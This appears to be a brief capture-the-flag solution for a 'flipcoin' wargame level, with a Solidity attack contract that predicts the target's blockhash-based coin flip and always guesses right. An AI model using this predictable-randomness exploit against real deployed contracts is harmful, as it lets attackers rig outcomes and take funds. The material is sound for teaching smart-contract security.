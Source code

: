 level_4_flipcoin
same as telephone calculate the randomvalue and again call the original flipcoin flip function
because blockchain cannot produce true random number
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFlipCoin {
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    IFlipCoin public flipCoin;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _flipCoin) {
        flipCoin = IFlipCoin(_flipCoin);
    }


    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flipVal = blockValue / FACTOR;
        bool guess = flipVal==1?true:false; 
        flipCoin.flip(guess);
    }
}

